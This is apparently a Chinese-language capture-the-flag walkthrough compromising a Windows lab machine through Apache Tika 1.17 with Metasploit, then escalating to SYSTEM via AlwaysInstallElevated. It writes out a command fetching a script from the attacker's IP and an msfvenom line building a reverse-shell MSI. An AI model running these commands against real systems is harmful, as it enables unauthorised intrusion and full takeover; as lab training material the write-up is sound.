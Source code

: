 ![image-20250529091825349](./assets/image-20250529091825349.png)

我们得到了ip，将其加入hosts中

![image-20250529092147739](./assets/image-20250529092147739.png)

我们用nmap扫出的信息，我们可以判断这是windows系统

![image-20250529093355503](./assets/image-20250529093355503.png)

查看源代码，我们发现了一个端口，我们进行访问一下

![image-20250529093643305](./assets/image-20250529093643305.png)

我们可以看到当前版本是Apache Tika 1.17

我们直接去searchsploit

![image-20250529095629631](./assets/image-20250529095629631.png)

我们用msfconsole去攻击

![image-20250529100251383](./assets/image-20250529100251383.png)

我们拿到了session，输入shell获得一个远程shell

进到用户的桌面，我们拿到了flag

![image-20250529100601048](./assets/image-20250529100601048.png)



```
powershell wget http://10.17.19.218:8080/PrivescCheck.ps1  
```

我们将脚本下载下来，然后通过

```
Get-ChildItem -Path C:\ -Recurse -Filter "PrivescCheck.ps1"
```

![image-20250529105942450](./assets/image-20250529105942450.png)

手动检查，可以看到没有开启防病毒

我们回到脚本结束的地方

**![image-20250529110104908](./assets/image-20250529110104908.png)**

哦我们呢看到了AlaysInstallElevated

```
cmd.exe /c 'systeminfo | findstr /B /C:"Host Name" /C:"OS Name" /C:"OS Version" /C:"System Type" /C:"Hotfix(s)"'
```

![image-20250529111124982](./assets/image-20250529111124982.png)

确定这是一个 x64 系统后，我们回到攻击者的机器，从我们的工作目录中制作我们的漏洞利用程序，如下所示：

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.17.19.218 LPORT=4445 -a x64 --platform Windows -f msi -o evil.msi
```

![image-20250529111430842](./assets/image-20250529111430842.png)

下载文件

![image-20250529111659555](./assets/image-20250529111659555.png)

执行后得到system权限
